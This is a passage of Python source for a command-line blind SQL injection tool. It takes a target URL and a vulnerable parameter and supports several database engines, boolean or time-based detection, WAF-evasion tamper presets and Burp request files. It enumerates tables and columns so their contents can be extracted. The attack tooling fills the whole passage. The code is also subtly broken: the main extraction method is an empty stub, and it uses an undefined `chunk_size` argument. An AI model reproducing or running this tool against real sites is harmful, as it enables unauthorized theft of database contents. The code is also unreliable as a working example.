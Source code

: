 ```
    async def run(self):
        # existing extraction logic using self._extract on target table/columns
        pass

# -------------------- CLI --------------------
def main():
    console=Console(); console.print(get_banner(),style="cyan")
    p=argparse.ArgumentParser(description="Blind SQLi Tool w/ schema enumeration")
    p.add_argument('-u','--url',help='Base URL'); p.add_argument('-p','--param',default='id',help='Param')
    p.add_argument('-t','--table',help='Table to extract'); p.add_argument('-c','--columns',nargs='+',help='Columns')
    p.add_argument('-e','--engine',choices=['mysql','postgres','mssql','oracle','auto'],default='auto',help='DB engine')
    p.add_argument('-m','--mode',choices=['boolean','time'],default='boolean',help='Detect mode')
    p.add_argument('-b','--max-chars',type=int,default=100,help='Max chars')
    p.add_argument('-r','--request-file',help='Burp request file')
    p.add_argument('-T','--tamper',default='',help='Tamper names CSV'); p.add_argument('--preset',choices=list(PRESETS.keys()),help='Tamper preset')
    p.add_argument('--delay',type=int,default=2,help='Delay'); p.add_argument('--timeout',type=float,default=10.0,help='Timeout')
    p.add_argument('--max-retries',type=int,default=3,help='Retries'); p.add_argument('-o','--output',help='JSON output')
    p.add_argument('--cache',default='sqli_cache.json',help='Cache file'); p.add_argument('--interactive',action='store_true',help='Interactive')
    p.add_argument('--enum-tables',action='store_true',help='Enumerate tables'); p.add_argument('--enum-columns',help='Enumerate columns of given table')
    args=p.parse_args()

    if args.interactive:
        args.url=console.input("URL objetivo: ")
        args.param=console.input("Parámetro vulnerable [id]: ") or 'id'
        if console.input("Enumerar tablas? (y/N): ").lower().startswith('y'):
            args.enum_tables=True
        if not args.enum_tables:
            args.table=console.input("Tabla: ")
            if console.input("Enumerar columnas de {0}? (y/N): ".format(args.table)).lower().startswith('y'):
                args.enum_columns=args.table
        cols=console.input("Columnas (espacio): ")
        args.columns=cols.split() if cols else None
    # engine selection ...
    engine_map={ 'mysql':MySQLEngine(), 'postgres':PostgreSQLEngine(), 'mssql':SQLServerEngine(), 'oracle':OracleEngine() }
    engine=engine_map.get(args.engine, engine_map['mysql'])
    # init injector
    injector=BlindSQLInjector(
        engine=engine,
        url=args.url,param=args.param,mode=args.mode,table=args.table,columns=args.columns,
        max_chars=args.max_chars,chunk_size=args.chunk_size,concurrency=1,
        timeout=args.timeout,max_retries=args.max_retries,output=args.output,
        cache_file=args.cache,base_delay=args.delay,
        request_template=Path(args.request_file).read_text() if args.request_file else None,
        tamper_names=PRESETS[args.preset] if args.preset else [t.strip() for t in args.tamper.split(',') if t.strip()]
    )
    if args.enum_tables:
        tables=injector.enumerate_tables()
        console.print("Tablas detectadas:")
        for t in tables: console.print(f" - {t}")
        sys.exit(0)
    if args.enum_columns:
        cols=injector.enumerate_columns(args.enum_columns)
```